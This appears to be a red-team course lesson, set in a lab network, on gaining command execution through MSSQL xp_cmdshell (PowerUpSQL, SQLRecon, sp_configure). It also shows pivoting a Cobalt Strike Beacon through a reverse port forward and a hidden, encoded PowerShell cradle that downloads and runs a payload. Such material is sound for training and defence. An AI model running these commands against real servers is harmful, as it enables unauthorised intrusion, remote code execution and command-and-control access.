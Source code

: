 The _xp_cmdshell_ procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges.  `Invoke-SQLOSCmd` from PowerUpSQL provides a simple means of using it.
```
beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\mssql_svc

```
  

The same will fail if you try manually in Heidi or mssqlclient, because xp_cmdshell is disabled.

```
SQL> EXEC xp_cmdshell 'whoami';
[-] ERROR(SQL-2): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server.

```
  

To enumerate the current state of xp_cmdshell, use:

```
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';

```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/406/8c2/83c/xpcmdshell-disabled.png)

  

A value of _0_ shows that xp_cmdshell is disabled. To enable it:

```
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;

```
  

Query sys.configurations again and the xp_cmdshell value should be _1_; and xp_cmdshell will also now work.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d9c/f07/b8a/xpcmdshell.png)

  **OPSEC**  
  
If you're going to make this type of configuration change to a target, you must ensure you set it back to its original value afterwards.  
  
The reason this works with `Invoke-SQLOSCmd` is because it will automatically attempt to enable xp_cmdshell if it's not already, execute the given command, and then disable it again.  This is a good example of why you should study your tools before you use them, so you know what is happening under the hood.

SQLRecon also has a module for interacting with the xp_cmdshell configuration, which can also be combined with the impersonation module.

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc

[*] Enabling xp_cmdshell as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433
[+] SUCCESS: Enabled xp_cmdshell on sql-2.dev.cyberbotic.io,1433.
name | value | 
---------------
xp_cmdshell | 1 |

beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig

[*] Executing 'ipconfig' as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433.
output | 
---------
 | 
Windows IP Configuration | 
 | 
 | 
Ethernet adapter Ethernet: | 
 | 
   Connection-specific DNS Suffix  . : ec2.internal | 
   IPv4 Address. . . . . . . . . . . : 10.10.122.25 | 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0 | 
   Default Gateway . . . . . . . . . : 10.10.122.1 | 
 |

```
  

With command execution, we can work towards executing a Beacon payload.  As with other servers in the lab, the SQL servers cannot talk directly to our team server in order to download a hosted payload.  Instead, we must setup a reverse port forward to tunnel that traffic through our C2 chain.

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80

```
  

Next, host `smb_x64.ps1` at `/b` on the team server.  We know SMB will work because we can validate that port 445 is open on the target SQL server.

```
beacon> portscan 10.10.122.25 445
(ICMP) Target '10.10.122.25' is alive. [read 8 bytes]
10.10.122.25:445 (platform: 500 version: 10.0 name: SQL-2 domain: DEV)
Scanner module is complete

```
  

We can now download and execute the payload, for example:

```
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"

```
OR

```
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=

```
  

Keep an eye on your web log so you know when the payload has been fetched.

```
01/05 15:09:07 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Serves /home/attacker/cobaltstrike/uploads/smb_x64.ps1
	null

```
  

You can then link to the Beacon.

```
beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
[+] established link to child beacon: 10.10.122.25

```  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/028/123/c7d/mssqlsvc-beacon.png)

  

  What payload would you use if port 445 was closed?  Experiment with using the pivot listener here instead of SMB.